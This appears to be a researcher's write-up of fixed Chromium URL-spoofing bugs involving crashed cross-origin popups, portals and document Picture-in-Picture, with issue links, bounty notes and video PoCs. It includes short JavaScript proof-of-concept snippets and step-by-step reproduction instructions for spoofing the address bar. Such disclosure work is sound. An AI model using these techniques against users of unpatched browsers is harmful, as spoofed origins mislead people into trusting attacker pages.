 ```yaml
---
title: URL Spoof
---
```


# Crashing (Fixed)

By crashing a cross-origin pop-up then navigating it to `data:html,foo` which gets blocked, The URL would stay cross-site but the page would be same-origin
[Issue 40054631](https://issues.chromium.org/issues/40054631) was duplicate but made a good twitter background.

Later there was a ghost image issue where the page stayed cross-origin but the contents of the previous page showed [Issue 40057561](https://issues.chromium.org/issues/40057561) was awarded $1000

I also tried the same thing with portals <https://issues.chromium.org/40064170> and it worked. [video PoC](https://www.youtube.com/watch?v=yy7dR88RIHw)
```js
// --enable-features=Portals,PortalsCrossOrigin
// onclick is optional  
onclick = () => {  
  
portal = document.createElement('portal');  
// Victim page crashs  
portal.src = 'https://ndev.tk/crashself.html';  
document.body.appendChild(portal);  
setTimeout(() => {  
// HTTP STATUS 204  
portal.src='https://terjanq.me/xss.php?status=204';  
portal.activate();  
}, 6000)  
}  
```

These attacks where migrated by needing to crash cross-site, however [Issue 40054631](https://issues.chromium.org/issues/40054631) had a way to do it similar to the [crossOriginIsolated bypass](https://ndevtk.github.io/writeups/2021/12/30/crossoriginisolated-bypass/) and any extension can crash any tab [Issue 40848497](https://issues.chromium.org/issues/40848497)

#  documentPictureInPicture (Fixed)

Did not update security UI on `about:blank` navigations so any window reference allows for a spoof. [video PoC](https://www.youtube.com/watch?v=yiAr4J-e6P8)

- Enable feature `chrome://flags/#document-picture-in-picture-api` (in Origin Trial)
- On victim page do `documentPictureInPicture.requestWindow();`
- Victim PiP opens popup to attacker page like `open('https://example.org', '', 'popup=1');`
- On attacker page run `opener.location = 'about:blank';` and notice security UI did not update.
- On attacker page run `opener.document.write('foo');`

This was fixed in <https://issues.chromium.org/40062959> by ensuring subsequent about:blank loads close the PiP window.
First patch was bypassable by using the extension `chrome.tabs.discard()` API. [video PoC](https://www.youtube.com/watch?v=yH-Cd0wWJEU).

When using fenced frames `documentPictureInPicture` would display the top-page origin not the embed.
```js
f=document.createElement('fencedframe');
f.src='https://terjanq.me/xss.php?h[Supports-Loading-Mode]=fenced-frame&js=onclick=()=>documentPictureInPicture.requestWindow();';
document.body.appendChild(f)
```

This was fixed in <https://issues.chromium.org/40062954> <https://issues.chromium.org/40063068> by making it so non-topmost frames can't open PiP.


